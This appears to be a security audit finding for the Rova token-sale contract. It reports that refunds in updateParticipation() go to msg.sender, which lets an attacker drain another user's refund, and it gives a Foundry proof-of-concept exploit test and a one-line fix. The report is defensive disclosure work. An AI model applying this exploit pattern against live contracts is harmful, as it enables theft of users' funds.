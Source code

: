 Tame Sapphire Mammoth

High

# Drain of user's funds in the Rova protocol due to refunds being sent to an incorrect address

### Summary

After a user participates in a sale, they can update the amount of tokens requested using the updateParticipation() function. If the updated amount is greater than the previous amount, the user must pay the difference; however, if it is lower, they are not required to pay extra, but instead receive a refund for the difference. The problem is that when refunding the difference, the recipient's address is not managed correctly, which could allow someone else to steal the refund amount.

### Root Cause

```solidity
        if (prevInfo.currencyAmount > newCurrencyAmount) {
            // Calculate refund amount
            uint256 refundCurrencyAmount = prevInfo.currencyAmount - newCurrencyAmount;
            // Validate user new requested token amount is greater than min token amount per user
            if (userTokenAmount - refundCurrencyAmount < settings.minTokenAmountPerUser) {
                revert MinUserTokenAllocationNotReached(
                    request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount
                );
            }
            // Update total tokens requested for user for launch group
            userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount);
            // Transfer payment currency from contract to user
            IERC20(request.currency).safeTransfer(msg.sender, refundCurrencyAmount);
// https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L351L363
```
In the refund transfer section, funds are sent to msg.sender instead of prevInfo.userAddress. Therefore, if an attacker uses another user's LaunchParticipationId, they could steal the refund amount associated with that LaunchParticipationId.

### Internal Pre-conditions

1. A valid prevLaunchParticipationId must exist
2. Attacker must submit updateParticipation() with victim's prevLaunchParticipationId
3. prevInfo.currencyAmount > newCurrencyAmount condition must be met

### External Pre-conditions

1. The attacker must have access to the victim’s prevLaunchParticipationId
2. The attacker must submit a transaction with lower newCurrencyAmount before the victim updates their participation

### Attack Path

1. Victim (user1) participates in the launch
      - user1 calls participate() with a valid ParticipationRequest
      - The contract records the participation and stores currencyAmount for user1
      - console.log() prints victim's balance before the exploit

2. Attacker (user2) creates a fake UpdateParticipationRequest
      - The attacker uses user1's prevLaunchParticipationId as prevLaunchParticipationId
      - However, the contract does not check whether msg.sender == prevInfo.userAddress
      - The attacker sets newTokenAmount lower than the original amount to trigger a refund

3. Attacker (user2) submits updateParticipation()
      - Since the new requested amount is lower, the contract calculates a refund.
      - However, instead of sending the refund to prevInfo.userAddress (user1),
      - it sends the refund to msg.sender (user2) due to incorrect safeTransfer()
      - Funds from user1 are now transferred to user2

4. Logging balance changes confirms the exploit
      - console.log() prints victim’s balance after the exploit (reduced)
      - console.log() prints attacker’s balance after the exploit (increased)

### Impact

Within the Rova protocol, funds can be drained by an attacker. This allows the attacker to steal a large amount of money

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {IERC20Errors} from "@openzeppelin/contracts/interfaces/draft-IERC6093.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    UpdateParticipationRequest,
    ParticipationInfo,
    CurrencyConfig
} from "../src/Types.sol";

contract LaunchUpdateParticipationTest is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest public originalParticipationRequest;

    function setUp() public {
        _setUpLaunch();
    }

    function test_exploit() public {
        // Setup initial participation
        settings = _setupLaunchGroup();
        // victim's request
        originalParticipationRequest = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(originalParticipationRequest));
        console.log("victim's balance before ex : ", currency.balanceOf(user1));
        vm.startPrank(user1);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                originalParticipationRequest.launchGroupId,
                originalParticipationRequest.currency,
                originalParticipationRequest.tokenAmount
            )
        );
        launch.participate(originalParticipationRequest, signature);

        vm.stopPrank();

        // attacker's request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(500);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user2);
        console.log("attacker's balance before ex : ", currency.balanceOf(user2));
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrencyAmount);

        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);
        console.log("victim's balance after ex : ", currency.balanceOf(user1));
        console.log("attacker's balance after ex : ", currency.balanceOf(user2));
        vm.stopPrank();
    }

    function _createUpdateParticipationRequest(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: user2,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
}
```

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/bad03f20-a6de-479e-aadf-58214896cbcc)

### Mitigation

```diff
        if (prevInfo.currencyAmount > newCurrencyAmount) {
            // Calculate refund amount
            uint256 refundCurrencyAmount = prevInfo.currencyAmount - newCurrencyAmount;
            // Validate user new requested token amount is greater than min token amount per user
            if (userTokenAmount - refundCurrencyAmount < settings.minTokenAmountPerUser) {
                revert MinUserTokenAllocationNotReached(
                    request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount
                );
            }
            // Update total tokens requested for user for launch group
            userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount);
            // Transfer payment currency from contract to user
-          IERC20(request.currency).safeTransfer(msg.sender, refundCurrencyAmount);
+          IERC20(request.currency).safeTransfer(prevInfo.userAddress, refundCurrencyAmount);
```
